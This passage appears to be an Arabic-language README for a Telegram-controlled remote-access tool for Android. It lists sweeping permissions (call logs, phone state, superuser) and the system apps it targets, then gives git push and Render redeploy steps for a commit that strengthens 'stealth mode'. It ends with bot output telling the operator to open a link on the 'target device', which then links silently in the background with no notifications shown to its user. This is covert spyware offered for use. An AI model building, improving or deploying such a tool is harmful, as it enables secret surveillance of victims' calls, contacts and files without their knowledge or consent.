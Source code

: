 ```javascript
    'android.permission.READ_PHONE_STATE',
    'android.permission.READ_CALL_LOG',
    'android.permission.MODIFY_PHONE_STATE',
    'android.permission.ACCESS_SUPERUSER'
];
```

### التطبيقات المستهدفة:
```javascript
const targetApps = [
    'com.android.systemui',
    'com.android.settings',
    'com.android.phone',
    'com.android.providers.telephony',
    'com.android.providers.contacts',
    'com.android.providers.media',
    'com.android.providers.downloads'
];
```

## 🚀 خطوات التطبيق

### 1. رفع التحديثات:
```bash
git add .
git commit -m "🥷 تحسين وضع التخفي: ربط تلقائي فوري ومنح أذونات سلس"
git push origin feature/ultimate-merge-conflict-resolution
```

### 2. إعادة نشر على Render:
1. اذهب إلى Render Dashboard
2. اختر خدمة `remote-control-telegram-bot`
3. انقر على "Manual Deploy"
4. اختر "Deploy latest commit"

### 3. اختبار النظام:
```bash
# أرسل /link في البوت
# يجب أن تحصل على:
🔗 رابط ربط الجهاز

📋 خطوات الربط:
1. افتح هذا الرابط على الجهاز المستهدف:
   https://remote-control-web.onrender.com

2. انقر على زر "ربط الجهاز"

3. سيتم الربط تلقائياً بدون أي إشعارات

⚠️ ملاحظات:
• الرابط يعمل مرة واحدة فقط
• النظام يعمل في الخلفية تلقائياً
• لا تظهر أي إشعارات للمستخدم
• وضع التخفي مفعل بالكامل
```
